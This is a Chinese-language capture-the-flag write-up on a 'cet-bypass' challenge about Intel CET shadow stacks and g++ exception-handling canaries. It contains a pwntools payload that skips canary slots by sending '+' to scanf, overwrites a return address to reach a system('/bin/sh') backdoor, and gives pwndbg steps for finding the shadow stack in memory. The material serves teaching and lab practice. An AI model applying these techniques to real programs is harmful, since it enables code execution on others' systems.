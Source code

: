这道题主要是想介绍一下 Intel CET 提供的影子栈保护，顺带看看新版 gcc 编译 `try-catch` 时更完善的栈保护。

题目中存在后门：通过篡改返回地址为 `banner` 函数 `try` 块内地址，就能调用 `system` 函数，而参数来源于 `banner` 函数的局部变量。

不过来到具体利用上，还需要解决几个问题：

1. `throw` 前检查 `canary`，如此保护，如何溢出？

    如前所述，新版本的 `g++` 会在异常处理中 `throw` 前添加 `canary` 检查。

    对比源码可以发现，两小题对输入的处理不同。本题中的 `scanf` 是可以输入加号 `+` 来绕过的：

    ```c
    scanf("%lu", &(buf[i]));
    ```

2. `system` 的参数如何设置？

    观察源码可以发现 `system` 参数来自 `main` 函数的局部变量，因此通过栈上的溢出也可以实现参数控制。

3. 影子栈在哪里？

    现在可以得到 payload 如下，用常规方法启动程序已经可以完成利用了：

    ```python
    PLACEHOLDER = 0xDEADBEEFCAFE
    BIN_SH = u64(b"/bin/sh\x00")
    TARGET_ADDR = 0x0000000000401913

    send_num = lambda x: io.sendline(b"+" if x == PLACEHOLDER else str(x).encode())

    payload = [
        PLACEHOLDER,
        PLACEHOLDER,
        PLACEHOLDER,
        PLACEHOLDER,
        PLACEHOLDER,
        TARGET_ADDR,
        PLACEHOLDER,
        PLACEHOLDER,
        BIN_SH,
        0x31337,
    ]

    io.recvuntil(b"Please share your lucky number.\n")
    for i in payload:
        send_num(i)
    ```

    但是使用 `sde64 -cet -- /src/cet-bypass` 运行会发现上述利用失败了，这就是影子栈在发挥作用了。

    关于寻找影子栈，可以用传统方法进行调试：

    - 启动程序 `io = process(["../sde/sde64", "-cet", "--", "./cet-bypass"])`
    - 获取程序 pid
    - 附加调试器 `pwndbg ./cet-bypass -ex "attach $(pgrep cet-bypass)"`
    - 根据影子栈中会保存返回地址的特性进行内存搜索 `search -t qword 0x4019e0`

    ![调试示例](assets/gdb-searchshstk.png)

    > [!IMPORTANT]
    > 关于影子栈内存权限的设置存在不同实现，Intel SDE 中的可读可写仅供学习与测试。在 Linux 内核中支持的用户态影子栈只允许特殊指令（如 `WRSS`）写入影子栈。

于是可以得到利用脚本 [cet_bypass-exp.py](src/cet_bypass-exp.py)。
